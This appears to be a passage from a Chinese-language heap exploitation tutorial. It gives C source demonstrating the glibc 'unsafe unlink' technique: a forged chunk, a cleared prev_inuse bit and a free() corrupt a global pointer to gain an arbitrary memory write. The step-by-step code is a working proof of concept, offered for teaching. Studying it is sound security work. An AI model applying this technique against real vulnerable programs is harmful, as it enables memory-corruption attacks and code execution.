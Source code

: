        uint64_t *chunk0_ptr;
       
       int main()
       {
           fprintf(stderr, "当您在已知位置有指向某个区域的指针时，可以调用 unlink\n");
           fprintf(stderr, "最常见的情况是易受攻击的缓冲区，可能会溢出并具有全局指针\n");
       
           int malloc_size = 0x80; //要足够大来避免进入 fastbin
           int header_size = 2;
       
           fprintf(stderr, "本练习的重点是使用 free 破坏全局 chunk0_ptr 来实现任意内存写入\n\n");
       
           chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
           uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
           fprintf(stderr, "全局变量 chunk0_ptr 在 %p, 指向 %p\n", &chunk0_ptr, chunk0_ptr);
           fprintf(stderr, "我们想要破坏的 chunk 在 %p\n", chunk1_ptr);
       
           fprintf(stderr, "在 chunk0 那里伪造一个 chunk\n");
           fprintf(stderr, "我们设置 fake chunk 的 'next_free_chunk' (也就是 fd) 指向 &chunk0_ptr 使得 P->fd->bk = P.\n");
           chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
           fprintf(stderr, "我们设置 fake chunk 的 'previous_free_chunk' (也就是 bk) 指向 &chunk0_ptr 使得 P->bk->fd = P.\n");
           fprintf(stderr, "通过上面的设置可以绕过检查: (P->fd->bk != P || P->bk->fd != P) == False\n");
           chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
           fprintf(stderr, "Fake chunk 的 fd: %p\n",(void*) chunk0_ptr[2]);
           fprintf(stderr, "Fake chunk 的 bk: %p\n\n",(void*) chunk0_ptr[3]);
       
           fprintf(stderr, "现在假设 chunk0 中存在一个溢出漏洞，可以更改 chunk1 的数据\n");
           uint64_t *chunk1_hdr = chunk1_ptr - header_size;
           fprintf(stderr, "通过修改 chunk1 中 prev_size 的大小使得 chunk1 在 free 的时候误以为 前面的 free chunk 是从我们伪造的 free chunk 开始的\n");
           chunk1_hdr[0] = malloc_size;
           fprintf(stderr, "如果正常的 free chunk0 的话 chunk1 的 prev_size 应该是 0x90 但现在被改成了 %p\n",(void*)chunk1_hdr[0]);
           fprintf(stderr, "接下来通过把 chunk1 的 prev_inuse 改成 0 来把伪造的堆块标记为空闲的堆块\n\n");
           chunk1_hdr[1] &= ~1;
       
           fprintf(stderr, "现在释放掉 chunk1，会触发 unlink，合并两个 free chunk\n");
           free(chunk1_ptr);
       
           fprintf(stderr, "此时，我们可以用 chunk0_ptr 覆盖自身以指向任意位置\n");
           char victim_string[8];
           strcpy(victim_string,"Hello!~");
           chunk0_ptr[3] = (uint64_t) victim_string;
       
           fprintf(stderr, "chunk0_ptr 现在指向我们想要的位置，我们用它来覆盖我们的 victim string。\n");
           fprintf(stderr, "之前的值是: %s\n",victim_string);
           chunk0_ptr[0] = 0x4141414142424242LL;
           fprintf(stderr, "新的值是: %s\n",victim_string);
       }
       ```

​    这个程序展示了怎样利用 free 改写全局指针 chunk0_ptr 达到任意内存写的目的，即unsafe unlink。

​    运行一下看看
